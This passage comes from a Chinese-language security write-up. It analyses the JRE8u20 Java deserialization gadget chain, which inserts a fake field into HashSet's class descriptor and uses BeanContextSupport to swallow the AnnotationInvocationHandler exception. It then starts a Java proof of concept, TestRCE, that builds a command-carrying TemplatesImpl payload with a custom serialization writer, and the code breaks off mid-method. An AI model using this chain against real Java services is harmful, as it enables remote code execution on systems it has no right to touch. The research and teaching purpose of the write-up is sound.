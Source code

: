 如果我们在这段结构中，插入一个 Passcode 类中根本不存在的成员，也不会有任何问题。这个虚假的值会被反序列化出来，但是最终会被抛弃掉，因为 Passcode 中不存在相应的成员。但是如果这个值是一个对象的话，反序列化机制会为这个值分配一个 Handle。JRE8u20 中利用到了这个技巧来生成 AnnotationInvocationHandler 并在随后的动态代理对象中引用它。利用 ObjectOutputStream 我们是无法做到添加假成员的，这种场景下 SerialWriter 就派上了用场。（类似的技巧还有：在 TC_CLASSDESC 中把一个类标记为 SC_WRITE_METHOD，然后就可以向这个类的数据区域尾部随意添加任何数据，这些数据都会在这个类被反序列化的同时也自动被反序列化）

<br>

**回到主题 – Payload JRE8u20**

****

上面已经分析过是什么问题导致了 Jdk7u21 不能在新版本中使用。也用了几个简单的实验来向大家展示了如何绕过这个问题。那么现在回到主题。

JRE8u20 中利用到了名为 java.beans.beancontext.BeanContextSupport 的类。 此类与上面实验所用到的 WrapperClass 的作用是一样的，只不过稍复杂一些。

大体步骤如下：

JRE8u20 中向 HashSet 的 TC_CLASSDESC 中添加了一个假属性，属性的值就是BeanContextChild 类的对象。

BeanContextSupport 在反序列化的过程中会读到 this.type 值为 Templates.class 的 AnnotationInvocationHandler 类的对象，因为 BeanContextChild 中有 try/catch，所以还原 AnnotationInvocationHandler 对象时出的异常被处理掉了，没有打断反序列化的逻辑。同时 AnnotationInvocationHandler 对象被分配了一个 handle。

然后就是继续 Jdk7u21 的流程，后续的 payload 直接引用了之前创建出来的 AnnotationInvocationHandler 。

pwntester 在 github 上传了他改的 Poc，但是因为他直接将序列化文件的结构写在了 Java 文件的一个数组里面，而且对象间的 handle 与 TC_REFERENCE 的值都需要人工手动修正，所以非常不直观。而且手动修正 handle 是一个很烦人的事情。

为了证明我不是一个理论派 🙂 ，我用 SerialWriter 重新实现了整个 Poc。代码如下：（手机端看不全代码，在电脑上看吧）

```
package util.n1nty.testpayload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import util.Gadgets;
import util.Reflections;
import util.n1nty.gen.*;
import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextChild;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.util.HashMap;
import java.util.Map;
import static java.io.ObjectStreamConstants.*;
public class TestRCE `{`
    public static Templates makeTemplates(String command) `{`
        TemplatesImpl templates = null;
        try `{`
            templates =  Gadgets.createTemplatesImpl(command);
            Reflections.setFieldValue(templates, "_auxClasses", null);
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
        return templates;
    `}`
    public static TCObject makeHandler(HashMap map, Serialization ser) throws Exception `{`
        TCObject handler = new TCObject(ser) `{`
            @Override
            public void doWrite(DataOutputStream out, HandleContainer handles) throws Exception `{`
                ByteArrayOutputStream byteout = new ByteArrayOutputStream();
                super.doWrite(new DataOutputStream(byteout), handles);
                byte[] bytes = byteout.toByteArray();
                /**
                 * 去掉最后的 TC_ENDBLOCKDATA 字节。因为在反序列化 annotation invocation handler 的过程中会出现异常导致序列化的过程不能正常结束
                 * 从而导致 TC_ENDBLOCKDATA 这个字节不能被正常吃掉
                 * 我们就不能生成这个字节
                 * */
                out.write(bytes, 0, bytes.length -1);
```